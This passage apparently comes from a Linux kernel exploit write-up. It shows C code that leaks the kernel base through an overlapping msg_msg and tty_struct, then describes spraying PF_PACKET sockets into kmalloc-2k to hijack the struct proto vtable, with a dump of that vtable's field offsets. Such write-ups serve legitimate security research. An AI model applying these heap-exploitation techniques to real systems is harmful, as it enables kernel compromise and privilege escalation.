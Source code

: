```c

  mrecv1 = recv_msg_CPY(qid[i], NEWCOMPSZ, 1, 0);
  const int subtract = (5 * 0x10) - 8;
  dumph(&mrecv1[NEWCOMPSZ - (subtract)], subtract, ' ');
  uint64_t do_tty_hangup = *(uint64_t *)(&mrecv1[NEWCOMPSZ - (subtract)]);
  kbase = do_tty_hangup - 0xadde80;
  printf("[*] Kbase: %p\n", kbase);
  free(mrecv1);

```

We end up embedding the `seg_idx` of the controlled message into the message itself so we know exactly which message it is, which we then release.

Very VERY luckily the `tty_struct` data overlapping `next->next` was null, otherwise this wouldn't have worked at all. That's become a theme with this exploit I feel. So with leaks acquired what comes next? Time travel, of course. The issue now is we wrote a single pointer, overwriting the `next` ptr of an old `msg_msg`, however in order to do more with this primitive we would need to re-do the whole process again, from the qdisc allocation to the cross cache and subsequent spraying to control the backing data this would all be quite annoying.

My idea ended up being to write our pointer value twice, once in `msg_msg`, and another in a very different location.

### PF_PACKET and other miracles

The object I had chosen to spray throughout the exploit was sockets -- not without good reason as they are quite bountiful (much more so than `tty_struct`). Some sockets, like `PF_NETLINK` end up in kmalloc-2k when allocated, however most don't. Many sockets have their own dedicated cache - for example AF_UNIX goes into the `UNIX` cache, `AF_VSOCK`, of course, goes into `AF_VSOCK`. I ended up deciding to target socket objects for achieving code execution as I had previously written an exploit following [hoefler's vsock post](https://hoefler.dev/articles/vsock.html) and it had been a very smooth process. But for this to work I would need to reliably know the location of a socket object, so ideally it would have to land in kmalloc-2k - in range of our qdisc.

Enter stage right, `PF_PACKET`. This specific socket kind ends up in kmalloc-2k. So why and how can this object be leveraged for code execution? All `struct sock`s have a certain member, `skc_prot` (residing in `struct sock_common`). This essentially acts as a family specific vtable of functions for stuff you can do on that socket.

```c
/* offset      |    size */  type = struct proto {
/*      0      |       8 */    void (*close)(struct sock *, long);
/*      8      |       8 */    int (*pre_connect)(struct sock *, struct sockaddr *, int);
/*     16      |       8 */    int (*connect)(struct sock *, struct sockaddr *, int);
/*     24      |       8 */    int (*disconnect)(struct sock *, int);
/*     32      |       8 */    struct sock *(*accept)(struct sock *, int, int *, bool);
/*     40      |       8 */    int (*ioctl)(struct sock *, int, int *);
/*     48      |       8 */    int (*init)(struct sock *);
/*     56      |       8 */    void (*destroy)(struct sock *);
/*     64      |       8 */    void (*shutdown)(struct sock *, int);
/*     72      |       8 */    int (*setsockopt)(struct sock *, int, int, sockptr_t, unsigned int);
/*     80      |       8 */    int (*getsockopt)(struct sock *, int, int, char *, int *);
/*     88      |       8 */    void (*keepalive)(struct sock *, int);
/*     96      |       8 */    int (*compat_ioctl)(struct sock *, unsigned int, unsigned long);
/*    104      |       8 */    int (*sendmsg)(struct sock *, struct msghdr *, size_t);
/*    112      |       8 */    int (*recvmsg)(struct sock *, struct msghdr *, size_t, int, int *);
/*    120      |       8 */    void (*splice_eof)(struct socket *);
/*    128      |       8 */    int (*bind)(struct sock *, struct sockaddr *, int);
/*    136      |       8 */    int (*bind_add)(struct sock *, struct sockaddr *, int);
/*    144      |       8 */    int (*backlog_rcv)(struct sock *, struct sk_buff *);
/*    152      |       8 */    bool (*bpf_bypass_getsockopt)(int, int);
								// [1]
/*    160      |       8 */    void (*release_cb)(struct sock *);
/*    168      |       8 */    int (*hash)(struct sock *);
/*    176      |       8 */    void (*unhash)(struct sock *);
```